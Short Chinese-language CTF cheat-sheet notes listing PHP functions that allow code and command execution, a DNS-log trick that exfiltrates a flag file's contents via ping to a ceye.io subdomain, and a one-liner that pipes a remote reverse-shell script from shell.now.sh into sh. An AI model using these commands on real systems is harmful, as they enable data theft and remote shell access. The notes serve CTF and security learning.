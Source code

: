 - PHP代码执行的几种方式：

  ```
  ${}执行代码
  eval
  assert
  preg_replace
  create_function()
  array_map()
  call_user_func()/call_user_func_array()
  array_filter()
  usort(),uasort()
  ```

- PHP命令执行的几种方式：

  ```
  system()
  passthru()
  exec()
  shell_exec()
  `反引号
  ob_start()
  mail函数+LD_PRELOAD执行系统命令
  ```

- 类似于`system("ping ".$ip);`这种测试没有回显，可采用dnslog的方式来查看回显：

  ```
  ping `cat where_is_flag.php|sed s/[[:space:]]/xx/g`.******.ceye.io
  # 因为域名中不允许有空格，但是php代码中可能会含有空格，所以使用sed命令将php代码的空格替换为xx
  ```

- curl 的 `-s` 参数可以不输出传输过程的信息。

  ```
  [Go0s]: ~/Desktop 
  ➜  curl bodkin.ren | html2text   
    % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                   Dload  Upload   Total   Spent    Left  Speed
  100    32  100    32    0     0    681      0 --:--:-- --:--:-- --:--:--   695
  Baby, you have to be good! :-)

  [Go0s]: ~/Desktop 
  ➜  curl -s bodkin.ren | html2text
  Baby, you have to be good! :-)
  ```

- 如果平时记不住反弹shell的命令，就可以用这个项目一键生成一个反弹shell的脚本，只需要将你服务端的IP和端口写在path中，`shell.now.sh/10.0.0.1:443` 然后下载执行这个脚本即可，它会尝试多种反弹shell的方式。

  ```
  curl -s https://shell.now.sh/192.168.0.69:1337 | sh
  ```

  ​